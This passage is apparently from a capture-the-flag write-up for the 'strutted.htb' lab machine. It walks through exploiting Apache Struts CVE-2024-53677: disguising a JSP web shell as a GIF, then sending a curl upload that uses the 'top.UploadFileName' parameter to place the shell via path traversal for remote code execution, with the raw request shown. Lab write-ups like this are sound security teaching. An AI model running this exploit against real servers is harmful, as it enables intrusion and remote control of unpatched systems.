 Let's trigger this exploit manually! Here's a more [detailed explanation](https://www.dynatrace.com/news/blog/the-anatomy-of-broken-apache-struts-2-a-technical-deep-dive-into-cve-2024-53677/){:target="_blank"}{:rel="noopener noreferrer"} of the vulnerability.

When a file is uploaded (after the initial checks are bypassed), we can use variables **specific to apache strut** to change the **file extension and location** of our uploaded file. So if we upload a `gif` file, we can use these vulnerable parameters to change it to a `php` file, and place it in an easily accessible (and executable) location to achieve **remote code execution!**

### Upload Bypass
Our goal is to upload [this jsp web shell](https://github.com/TAM-K592/CVE-2024-53677-S2-067/blob/ALOK/shell.jsp){:target="_blank"}{:rel="noopener noreferrer"} on the server to run commands. In order for our exploit to work, we'll need to bypass the upload restrictions. 

Bypassing the file extension is easy enough, just rename the file

```bash
mv shell.jsp shell.gif
```

To pass the magic bytes check, we'll need to add the `gif` bytes at the beginning. Just add this `gif` string at the start of the file

```bash
GIF87a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
# rest of shell.jsp source here
```

Finally we just need to change the `Content-Type` form header to reflect **any valid file type** when we send send the `POST` request

```bash
# it doesn't have to be a gif!
Content-Type: image/png
```

### Remote Code Execution
Now we can upload the web shell with `curl`. Notice the capitalization in `Upload` and `UploadFileName`! These are the special (vulnerable) parameters that we're going to exploit

```bash
curl -X POST http://strutted.htb/upload.action -F 'Upload=@./shell.gif' -F 'top.UploadFileName=../../shell.jsp'
```

When successful, the uploaded file location will be embedded in the response

```js
<img src="uploads/20250828_163037/../../shell.jsp" alt="Uploaded File"/>
```

Here is the payload sent through burp

```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------34232648183382128405422289677
Content-Length: 3156
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=267C77DCD2517780429353BB566B43C8
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```